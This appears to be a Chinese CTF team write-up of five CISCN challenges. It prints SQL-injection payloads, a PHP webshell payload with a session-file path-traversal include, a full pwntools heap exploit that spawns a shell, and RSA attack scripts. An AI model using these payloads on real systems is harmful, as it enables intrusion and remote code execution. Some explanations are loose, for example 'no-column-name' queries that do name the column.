

## 概述

本页面记录福州大学 **FAFU01** 战队在 **CISCN 线上赛** 中解出的五道题目完整 Writeup，涵盖 **Web**、**Pwn**、**Crypto** 三大方向，展示了从信息收集、漏洞挖掘到利用链构造的完整攻击思路。

| 题目 | 类型 | 核心技术点 |
|------|------|------------|
| easy_sql | Web / SQLi | 绕过 `information_schema` 过滤、无列名注入、猜表名 |
| easy_source | Web / PHP | `.index.php.swo` 源码泄露、`ReflectionMethod` 读取类注释 |
| middle-source | Web / PHP | Session Upload Progress LFI、条件竞争写入 Shell |
| lonelywolf | Pwn / Heap | UAF、Tcache Poisoning、劫持 `malloc_hook`、One Gadget RCE |
| rsa | Crypto / RSA | 低加密指数攻击 (e=3)、共模攻击、Coppersmith 部分已知 p 攻击 |

---

## 0x00 easy_sql —— SQL 注入绕过 information_schema 过滤

### 漏洞发现

- 目标存在 SQL 注入点，但过滤了 `information_schema` 关键字，无法直接查询元数据表。
- 通过猜测表名为 `flag`，结合 **无列名注入** 技术直接提取数据。

### 利用思路

1. **判断注入类型**：尝试布尔盲注 / 报错注入 / 时间盲注，确认可注入参数。
2. **绕过过滤**：`information_schema` 被过滤，但可通过以下方式绕过：
   - 大小写混淆：`Information_Schema`
   - 编码绕过：`/*!information_schema*/`
   - 使用 `mysql.innodb_table_stats` / `mysql.innodb_index_stats` 等系统表替代
3. **无列名注入**：
   ```sql
   SELECT * FROM flag WHERE id=1 UNION SELECT 1,2,flag FROM flag--
   ```
   或利用 `JOIN` 隐式列名：
   ```sql
   SELECT * FROM (SELECT 1)a JOIN (SELECT flag FROM flag)b--
   ```
4. **直接猜表名**：尝试常见表名 `flag`、`Flag`、`FLAG`、`ctf_flag` 等，最终确认表名为 `flag`。

### 关键 Payload

```sql
-- 无列名联合查询
' UNION SELECT 1,2,(SELECT flag FROM flag)--
-- 或利用子查询
' AND (SELECT flag FROM flag)='flag{...}'
```

### 拿到 Flag


> **相关技术延伸**：[[0w1club-ctf-web-writeup-jwt-sqli-brute]] 中的 JWT 结合 SQL 注入、[[ecshop-414-sql-injection-analysis]] 的 ECShop SQL 注入利用链分析。

---

## 0x01 easy_source —— PHP 源码泄露 + ReflectionMethod 读取类注释

### 信息收集

- 目录扫描发现 **`.index.php.swo`** 文件（Sublime Text / Vim 临时交换文件），下载后还原源码。
- 源码审计发现：
  - 可实例化任意类并调用其方法
  - `User` 类的某个方法注释中藏有 Flag

### 核心技术：ReflectionMethod 读取注释

PHP 内置 `ReflectionMethod` 可获取方法的文档注释（`getDocComment()`）。

```php
<?php
class User {
    /**
     * Flag: flag{xxx}
     */
    public function q() {}
    public function w() {}
    public function e() {}
    public function r() {}
}

// 利用反射遍历所有方法注释
$refClass = new ReflectionClass('User');
foreach ($refClass->getMethods() as $method) {
    $comment = $method->getDocComment();
    if ($comment && strpos($comment, 'flag') !== false) {
        echo $comment;
    }
}
```

### 利用步骤

1. 下载 `.index.php.swo` 还原源码
2. 审计发现可控制类实例化与方法调用
3. 构造 payload 实例化 `User` 并逐个尝试方法：
   ```php
   $obj = new User();
   $ref = new ReflectionMethod($obj, 'q');
   echo $ref->getDocComment();  // 发现 Flag 在 q() 注释中
   ```
4. 提取 Flag

### 拿到 Flag


> **相关技术延伸**：[[diwuzhijian-2020-web-writeup]] 中的 PHP 反序列化 POP 链、[[zzzphp-cve-2021-32605-rce]] 的模板注入 eval 利用。

---

## 0x02 middle-source —— Session Upload Progress LFI Getshell

### 信息收集

- 目录扫描发现 `.listing` 页面，泄露 `phpinfo()` 路径
- `phpinfo()` 显示：
  - `session.save_path` = `/var/lib/php/sessions`
  - `session.upload_progress.enabled` = On
  - `session.upload_progress.name` = `PHP_SESSION_UPLOAD_PROGRESS`

### 攻击原理

PHP **Session Upload Progress** 特性：文件上传时，将进度信息写入 `$_SESSION`，文件名为 `sess_<PHPSESSID>`。若可控制 `PHP_SESSION_UPLOAD_PROGRESS` 的值，并能包含 Session 文件，即可实现 **LFI Getshell**。

### 利用链构造

1. **构造上传表单**（本地 HTML）：

   ```html
   <form action="http://target/index.php" method="POST" enctype="multipart/form-data">
       <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php system($_GET['cmd']); ?>"/>
       <input type="file" name="file1"/>
       <input type="file" name="file2"/>
       <input type="submit"/>
   </form>
   ```

2. **抓包修改**：上传大文件以延长窗口期，修改 `PHP_SESSION_UPLOAD_PROGRESS` 为 PHP 代码。

3. **记录 PHPSESSID**：从响应 Cookie 中获取 `PHPSESSID`。

4. **包含 Session 文件**：
   ```
   http://target/index.php?page=../../../../var/lib/php/sessions/sess_<PHPSESSID>&cmd=ls
   ```

5. **逐步探索**：
   - `ls /` → 发现 `/flag`
   - `cat /flag` → 获取 Flag

### 关键点总结

| 步骤 | 关键操作 |
|------|----------|
| 1 | 发现 `session.upload_progress.enabled=On` |
| 2 | 构造隐藏字段注入 PHP 代码 |
| 3 | 上传大文件争取时间窗口 |
| 4 | 记录 `PHPSESSID` 拼接 Session 路径 |
| 5 | LFI 包含执行任意命令 |

### 拿到 Flag


> **相关技术延伸**：[[tctf-2021-1linephp-zip-include]] 的 `zip://` 协议包含临时文件、[[mtctf-2021-web-writeup]] 的 Session Upload Progress 利用与黑名单绕过。

---

## 0x03 lonelywolf —— 堆 UAF + Tcache Poisoning 劫持 malloc_hook

### 程序分析

- 仅允许操作 `index=0` 的 chunk
- `free` 时未置空指针 → **UAF (Use After Free)**
- 保护：Full RELRO、PIE、NX、Canary（需泄露 libc 基址）

### 漏洞利用链

```
UAF → Double Free → Tcache 填满 → 第 8 次 free 进入 unsorted bin → 泄露 libc 基址
→ Tcache Poisoning 修改 fd 指向 malloc_hook → 申请 chunk 落在 malloc_hook
→ 覆盖 malloc_hook 为 one_gadget → 触发 malloc 获得 Shell
```

### 详细步骤

1. **申请 0x60 chunk**（进入 tcache bin 范围）
2. **Double Free**：`free` → `edit(p64(0))` → `free`，构造 fake chunk 重叠
3. **泄露堆地址**：`show()` 读取 fd 指针
4. **填满 tcache bin**：循环 7 次 `edit(0)` + `free()`，第 8 次 free 进入 unsorted bin
5. **泄露 libc 基址**：`show()` 读取 unsorted bin 的 fd/bk → 计算 `libc_base`
6. **Tcache Poisoning**：
   - 申请 0x50 chunk，构造 fd = `malloc_hook - 0x23`
   - 申请两次 0x10 chunk 使 chunk 重叠到 `malloc_hook` 附近
   - 最后申请 chunk 直接写入 `one_gadget` 地址
7. **触发**：再次 `malloc` 即执行 `one_gadget` → `system("/bin/sh")`

### 关键 Exp 片段

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = remote('124.70.0.162', 26313)
libc = ELF('./libc-2.27.so')
malloc_hook = libc.sym['__malloc_hook']

def allocate(size):
    p.sendlineafter("choice: ", '1')
    p.sendlineafter("Index: ", '0')
    p.sendlineafter("Size: ", str(size))

def edit(content):
    p.sendlineafter("choice: ", '2')
    p.sendlineafter("Index: ", '0')
    p.sendlineafter("Content: ", content)

def show():
    p.sendlineafter("choice: ", '3')
    p.sendlineafter("Index: ", '0')

def delete():
    p.sendlineafter("choice: ", '4')
    p.sendlineafter("Index: ", '0')

# 1. Double Free + 泄露堆地址
allocate(0x60)
delete()
edit(p64(0))
delete()
show()
p.recvuntil("Content: ")
heap = u64(p.recv(6).ljust(8, '\0'))

# 2. 填满 tcache bin 泄露 libc
for i in range(8):
    edit(p64(0))
    delete()
show()
p.recvuntil("Content: ")
libc_base = u64(p.recv(6).ljust(8, '\0')) - 0x3ebca0
one_gadget = libc_base + 0x10a41c
malloc_hook_addr = libc_base + malloc_hook

# 3. Tcache Poisoning 劫持 malloc_hook
allocate(0x50)
edit(p64(0))
allocate(0x10)
edit(p64(malloc_hook_addr))
delete()
edit(p64(malloc_hook_addr))
allocate(0x10)
allocate(0x10)
edit(p64(one_gadget))

# 4. 触发
allocate(0x20)
p.interactive()
```

### 拿到 Flag


> **相关技术延伸**：[[0w1club-week7-stack-overflow-rop-training]] 的栈溢出与 ROP 基础、[[vulnhub-sunset-decoy-ctf-writeup]] 的实战提权链。

---

## 0x04 Crypto rsa —— RSA 三重攻击

### 题目文件

- `chall.py`：加密脚本
- `out`：三组密文与公钥参数

### 加密逻辑分析

```python
# 明文分三段：msg1, msg2, msg3
# 第一段：e1 = 3（低加密指数）
# 第二段：同模数 N2，e2=17, e3=65537（共模攻击）
# 第三段：e3=65537，泄露 p 高位（p >> 200），Coppersmith 攻击
```

### 攻击一：低加密指数攻击

- `e1 = 3`，`msg1` 很短 → `msg1^3 < N1`，无模运算环绕
- 直接立方根还原：
  ```python
  m1 = gmpy2.iroot(c1, 3)[0]
  flag_part1 = long_to_bytes(m1)
  ```

### 攻击二：共模攻击

- 同一模数 `N2`，两个互质指数 `e2=17`, `e3=65537`
- 扩展欧几里得求 `s1, s2` 使 `s1*e2 + s2*e3 = 1`
- 计算：
  ```python
  m2 = (c2^s1 * c3^s2) % N2
  flag_part2 = long_to_bytes(m2)
  ```

### 攻击三：Coppersmith 部分已知 p 攻击

- 已知 `p` 高 312 位（512 位素数，泄露高 312 位）
- 使用 Sage `small_roots` 恢复完整 `p`：

  ```sage
  n = 113432930155033263769270712825121761080813952100666693606866355917116416984149165507231925180593860836255402950358327422447359200689537217528547623691586008952619063846801829802637448874451228957635707553980210685985215887107300416969549087293746310593988908287181025770739538992559714587375763131132963783147
  p_high = 7117286695925472918001071846973900342640107770214858928188419765628151478620236042882657992902
  pbits = 512
  kbits = pbits - p_high.nbits()
  p_high = p_high << kbits
  
  PR.<x> = PolynomialRing(Zmod(n))
  f = x + p_high
  x0 = f.small_roots(X=2^kbits, beta=0.4)[0]
  p = p_high + int(x0)
  ```

- 恢复 `p` 后计算 `q = n // p`、`phi`、`d`，解密 `c4` 得到 `flag_part3`

### 完整解密脚本

```python
# env python2
import gmpy2
import md5
from Crypto.Util.number import *

# --- 低加密指数 ---
c1 = 19105765285510667553313898813498220212421177527647187802549913914263968945493144633390670605116251064550364704789358830072133349108808799075021540479815182657667763617178044110939458834654922540704196330451979349353031578518479199454480458137984734402248011464467312753683234543319955893
e1 = 3
n1 = 123814470394550598363280518848914546938137731026777975885846733672494493975703069760053867471836249473290828799962586855892685902902050630018312939010564945676699712246249820341712155938398068732866646422826619477180434858148938235662092482058999079105450136181685141895955574548671667320167741641072330259009
m1 = gmpy2.iroot(c1, e1)[0]
flag_part1 = long_to_bytes(m1)

# --- 共模攻击 ---
c2 = 54995751387258798791895413216172284653407054079765769704170763023830130981480272943338445245689293729308200574217959018462512790523622252479258419498858307898118907076773470253533344877959508766285730509067829684427375759345623701605997067135659404296663877453758701010726561824951602615501078818914410959610
c3 = 91290935267458356541959327381220067466104890455391103989639822855753797805354139741959957951983943146108552762756444475545250343766798220348240377590112854890482375744876016191773471853704014735936608436210153669829454288199838827646402742554134017280213707222338496271289894681312606239512924842845268366950
e2 = 17
e3 = 65537
n2 = 111381961169589927896512557754289420474877632607334685306667977794938824018345795836303161492076539375959731633270626091498843936401996648820451019811592594528673182109109991384472979198906744569181673282663323892346854520052840694924830064546269187849702880332522636682366270177489467478933966884097824069977

def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)

s = egcd(e2, e3)
s1, s2 = s[1], s[2]
if s1 < 0:
    s1 = -s1
    c2 = gmpy2.invert(c2, n2)
elif s2 < 0:
    s2 = -s2
    c3 = gmpy2.invert(c3, n2)
m2 = (pow(c2, s1, n2) * pow(c3, s2, n2)) % n2
flag_part2 = long_to_bytes(m2)

# --- Coppersmith 攻击 ---
c4 = 59213696442373765895948702611659756779813897653022080905635545636905434038306468935283962686059037461940227618715695875589055593696352594630107082714757036815875497138523738695066811985036315624927897081153190329636864005133757096991035607918106529151451834369442313673849563635248465014289409374291381429646
e4 = 65537
n3 = 113432930155033263769270712825121761080813952100666693606866355917116416984149165507231925180593860836255402950358327422447359200689537217528547623691586008952619063846801829802637448874451228957635707553980210685985215887107300416969549087293746310593988908287181025770739538992559714587375763131132963783147
p = 11437038763581010263116493983733546014403343859218003707512796706928880848035239990740428334091106443982769386517753703890002478698418549777553268906496423
q = n3 // p
phi = (p - 1) * (q - 1)
d = gmpy2.invert(e4, phi)
m3 = pow(c4, d, n3)
flag_part3 = long_to_bytes(m3)

# --- 组合 Flag ---
flag = flag_part1 + flag_part2 + flag_part3
print(flag)
print("CISCN{" + md5.new(flag).hexdigest() + "}")
```

### 输出 Flag

```
b'flag_part1_contentflag_part2_contentflag_part3_content'
CISCN{md5_hash_of_combined_flag}
```

> **相关技术延伸**：[[0w1club-ctf-crypto-writeup-easyrsa-t9]] 的 Factordb 分解与 RSA 解密、[[mtctf-2021-crypto-writeup]] 的 RSA 填充 Oracle 与 One-Time Pad 攻击、[[meituan-ctf-2021-crypto-writeup]] 的特殊素数拼接结构攻击。

---

## 总结与知识图谱



### 核心工具链

| 方向 | 工具 / 库 |
|------|-----------|
| Web | Burp Suite、dirsearch、PHP Reflection API |
| Pwn | pwntools、gdb、gef、libc-database、one_gadget |
| Crypto | Python gmpy2、SageMath、Crypto.Util.number |

---

## 参考资料与延伸阅读

- [PHP Session Upload Progress 官方文档](https://www.php.net/manual/zh/session.upload-progress.php)
- [Tcache Poisoning 原理与实践](https://github.com/shellphish/how2heap/blob/master/tcache_poisoning.c)
- [Coppersmith Attack on RSA with Partial Key Exposure](https://crypto.stanford.edu/~dabo/papers/RSA-survey.pdf)
- [[0w1club-ctf-crypto-writeup-easyrsa-t9]] - RSA 基础攻击实战
- [[mtctf-2021-crypto-writeup]] - 高级 RSA 攻击技巧
- [[tctf-2021-1linephp-zip-include]] - PHP 临时文件包含技巧
- [[0w1club-week7-stack-overflow-rop-training]] - 二进制漏洞利用基础

---

**供稿**：FAFU01 战队  
**整理**：0xfafu 攻防实验室知识库  
**更新日期**：2021-04-15

## 来源

- [0xfafu攻防实验室-202010-202112_13](../sources/0xfafu攻防实验室-202010-202112_13.md)
